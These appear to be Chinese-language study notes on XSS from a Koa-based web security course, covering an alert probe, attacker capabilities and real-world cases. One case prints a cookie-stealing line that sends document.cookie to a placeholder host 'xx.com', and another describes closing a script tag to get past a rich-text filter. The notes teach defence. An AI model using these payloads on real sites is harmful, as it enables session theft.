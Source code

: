 - koa
    - koa-static 静态文件中间件
    - koa-bodyparser 解析 body
    - koa-pug 模板，使用缩进定义 html 层级结构
    - koa-router 路由
- jspm 管理前端静态依赖
    - jspm i
- npm i 后端依赖

# 二、XSS 攻击

> Cross Site Scripting 跨站脚本攻击，区别于 CSS ，将 Cross 缩写为 X。

白话理解：只运行本站内的东西才安全，如果运行了其他站的东西，就是跨站脚本攻击。用户写入的内容被当做程序来执行，出现了攻击。

## 2.1 引入

案例描述：
- 从 query 中获取数据，然后直接插入到模板 views 中，如果在 query 中插入 JS 脚本，而后端不处理，则会执行脚本实现跨站脚本攻击。

尝试攻击：
- 使用 alert 试探是否存在 XSS 漏洞，<script>alert(1);</script>

攻击原理：
- 程序+数据=结果，当数据中包含一部分程序的时候，原本的程序逻辑被改变，完成攻击。

可做操作：
- 获取页面数据
- 获取 Cookies
- 劫持前端逻辑
- 发送请求（到被攻击者服务器、图片跨站提交数据到攻击者服务器）
- ...

最终危害：
- 偷取网站任意数据
- 偷取用户任意资料
- 偷取用户密码和登录态
- 欺骗用户
- ...

## 2.2 真实案例

- 站酷搜索
    - 搜索关键词到结果页时会被显示出来
    - 攻击时引用远程 JS 脚本，脚本执行创建图片然后 img.src 中上报 cookies 给一个远程 PHP 脚本，盗取了登录态（直接发送脚本，点击后也能盗取）
        - img.src = 'http://xx.com/joke.php?joke=' + encodeURIComponent(document.cookie);
- QQ 空间日志
    - 富文本，本质上是 htm'l，可以提交任何内容，已做的过滤靠白名单不彻底，把 </script> 反斜杠去掉，用于合并标签
    - 攻击时，富文本插入脚本并主动提供一个闭合 </script>，执行脚本
- XXX 商城
    - 提交订单信息，到管理者的界面上审核
    - 攻击时，提交脚本到管理者界面执行，可以拿到管理者的登录态和后台地址(http-referer)
